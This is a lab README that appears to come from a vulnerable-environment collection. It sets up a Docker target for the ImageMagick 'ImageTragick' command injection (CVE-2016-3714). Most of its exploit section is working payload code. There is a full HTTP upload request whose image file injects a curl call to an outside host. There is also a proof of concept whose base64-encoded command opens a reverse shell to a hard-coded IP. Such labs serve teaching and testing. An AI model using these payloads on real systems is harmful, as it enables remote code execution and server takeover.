 # ImageMagick Imagetragick Command Injection (CVE-2016–3714)

[中文版本(Chinese version)](README.zh-cn.md)

ImageMagick is a free and open-source cross-platform software suite for displaying, creating, converting, modifying, and editing raster images.

In ImageMagick version before 6.9.3-9, insufficient filtering for filename passed to delegate's command allows remote code execution during conversion of several file formats. The CVE-2016-3714 is also called "imagetragick".

References:

- <https://imagetragick.com>
- <https://www.leavesongs.com/PENETRATION/CVE-2016-3714-ImageMagick.html>
- <https://github.com/ImageTragick/PoCs>

## Environment Setup

Execute the following command to start a PHP server that includes ImageMagick 6.9.2-10:

```
docker compose up -d
```

## Exploit

Visit `http://your-ip:8080/` to see an upload component.

Send the following request:

```
POST / HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymdcbmdQR1sDse9Et
Content-Length: 328

------WebKitFormBoundarymdcbmdQR1sDse9Et
Content-Disposition: form-data; name="file_upload"; filename="1.gif"
Content-Type: image/png

push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg"|curl "www.leavesongs.com:8889)'
pop graphic-context
------WebKitFormBoundarymdcbmdQR1sDse9Et--
```

It can be seen that `www.leavesongs.com:8889` has received the http request, after the curl command was executed successfully:

![](2.png)

POC of getting a reverse shell：

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg?`echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzQ1LjMyLjQzLjQ5Lzg4ODkgMD4mMQ== | base64 -d | bash`"||id " )'
pop graphic-context
```

![](3.png)
